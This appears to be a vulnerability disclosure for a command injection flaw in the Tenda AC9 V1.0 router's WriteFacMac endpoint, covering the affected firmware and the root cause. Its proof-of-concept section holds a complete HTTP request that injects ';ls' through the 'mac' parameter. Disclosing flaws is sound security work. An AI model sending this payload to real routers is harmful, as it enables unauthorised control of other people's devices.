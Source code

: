 # Tenda AC9 V1.0 Command Injection Vulnerability in WriteFacMac

## Overview
Tenda AC9 V1.0 Router is a consumer-grade wireless router supporting advanced wireless features, firewall, and device management capabilities. A command injection vulnerability exists in the `formWriteFacMac` function, which handles requests to the `/goform/WriteFacMac` endpoint. Attackers can inject arbitrary system commands via the `mac` parameter, leading to unauthorized device control or complete compromise.
![PoC 2 Result: Root Directory Listing](./imgs/0.png)
## Details
- **Vendor**: Tenda
- **Website**: [https://www.tenda.com.cn/]
- **Product**: Tenda AC9 V1.0 Router
- **Firmware**: V15.03.05.19(6318)
- **Firmware Download**: [https://www.tenda.com.cn/download/detail-2681.html]
- **Endpoint**: `/goform/WriteFacMac`
- **Vulnerability**: Command Injection
- **CVE ID**: Pending
- **Impact**: Execute arbitrary commands, access sensitive files, or gain full control.
- **Reported by**: Anonymous Researcher

### Description
The `formWriteFacMac` function processes POST requests to `/goform/WriteFacMac`. It extracts the user-controlled `mac` parameter via `sub_2B9D4` (a parameter parsing function) and passes it directly to `doSystemCmd`. In `doSystemCmd`, the parameter is interpolated into a system command (e.g., `cfm mac %s`) without any input sanitization. The command is executed directly on the system. By injecting special characters (e.g., `;`), attackers can escape the command context and execute arbitrary system commands on the router.
![PoC 2 Result: Root Directory Listing](./imgs/1.png)
![PoC 2 Result: Root Directory Listing](./imgs/2.png)
## Proof of Concept (PoC)

### PoC 1: Execute `ls` Command
```
POST /goform/WriteFacMac HTTP/1.1
Host: 192.168.xxx.xxx
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: password=rfl1qw
If-Modified-Since: Sun Aug 10 12:46:43 2025
Connection: keep-alive
Content-Length: 24
mac=00:01:02:11:22:33;ls
```
![PoC 2 Result: Root Directory Listing](./imgs/3.png)
